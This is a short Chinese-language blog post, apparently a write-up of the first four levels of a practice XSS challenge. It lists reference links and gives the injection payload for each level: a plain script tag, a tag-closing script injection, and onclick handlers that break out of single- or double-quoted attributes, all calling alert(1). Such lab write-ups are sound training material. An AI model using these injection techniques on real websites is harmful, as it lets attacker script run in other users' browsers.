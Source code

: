 ```yaml
---
layout: post
title: "xss挑战之旅"
date: 2019-05-27
author: jjnoob
categories:
- 2019-05
tags:
- xss
---
```


* content
{:toc}


> 凌晨0:45了, 我该睡觉了...



[参考](https://xz.aliyun.com/t/1206/)
[参考](https://www.tuicool.com/articles/yiYryyM)
[参考](https://www.tr0y.wang/2018/04/10/XSSchallenge/)
[参考](https://blkstone.github.io/2017/06/08/xss-challenge/)
[参考](https://www.cnblogs.com/bmjoker/p/9446472.html)

# level 1

构造payload `name=<script>alert(1)</script>`

<br />

# level 2
查看源码: `<input name="keyword" value="test">`

输入在input标签内，需要闭合input标签 

`"><script>alert(1)</script>`

<br />

# level 3
单引号闭合
`' onclick=alert(1)//`

<br />

# level 4
双引号闭合
`" onclick=alert(1)//`
